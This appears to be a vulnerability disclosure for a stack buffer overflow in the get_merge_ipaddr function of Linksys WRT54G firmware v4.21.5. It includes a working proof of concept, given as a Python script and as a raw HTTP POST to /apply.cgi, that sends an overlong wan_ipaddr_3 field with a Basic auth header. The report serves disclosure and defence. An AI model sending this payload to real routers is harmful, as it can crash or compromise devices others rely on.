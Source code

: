 # Overview
Product overview https://store.linksys.com/support-product?sku=WRT54G

# Affected version
Linksys WRT54G Firmware v4.21.5
# Vulnerability details
The Linksys WRT54G Firmware v4.21.5 has a stack overflow vulnerability in get_merge_ipaddr function. The variable `wan_ipaddr_%d`receives the parameter from a POST request.  In line 15, the stract function will merge it with the variable a2. It is important to note that in the calling function, the a2 variable is stack-allocated and has a size of only 24 characters. If the variable exceeds this length, it can result in a buffer overflow vulnerability, potentially leading to remote code execution or denial-of-service attacks.  
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723521727425-1957b2ba-9c9f-41d8-8963-76fe8c56665f.png#averageHue=%23fdfdfb&clientId=ub288f58f-c669-4&from=paste&height=261&id=u99def465&originHeight=441&originWidth=807&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=36998&status=done&style=none&taskId=u2e84555d-1993-4576-b80f-0073081d4bd&title=&width=477.33331298828125)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723521761103-57d645c2-fb74-4cfd-a2a3-18f94747b6cc.png#averageHue=%23fcfcfb&clientId=ub288f58f-c669-4&from=paste&height=451&id=ubf5700a3&originHeight=732&originWidth=715&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=84978&status=done&style=none&taskId=ud54a6890-036f-40e6-9df0-09bc09bdd27&title=&width=440.5555419921875)
# POC
```python
import requests

url = 'http://192.168.1.1/apply.cgi'
headers = {
    'Host': '192.168.1.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.1.1',
    'Authorization': 'Basic OmFkbWlu',
    'Connection': 'close',
    'Referer': 'http://192.168.1.1/WanMAC.asp',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1',
}

payload = ('submit_button=WanMAC&change_action=&submit_type=&action=Apply&wan_proto=1&wan_ipaddr=3&wan_ipaddr_0=1.1.1.1&wan_ipaddr_1=2.2.2.2&wan_ipaddr_3=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wan_netmask=2.2.2.2')

response = requests.post(url, headers=headers, data=payload)

print('Status:', response.status_code)
print('Response:', response.text)

```
```c
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 197
Origin: http://192.168.1.1
Authorization: Basic OmFkbWlu
Connection: close
Referer: http://192.168.1.1/WanMAC.asp
Upgrade-Insecure-Requests: 1
Priority: u=1

submit_button=WanMAC&change_action=&submit_type=&action=Apply&wan_proto=1&wan_ipaddr=3&wan_ipaddr_0=1.1.1.1&wan_ipaddr_1=2.2.2.2&wan_ipaddr_3=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wan_netmask=2.2.2.2
```
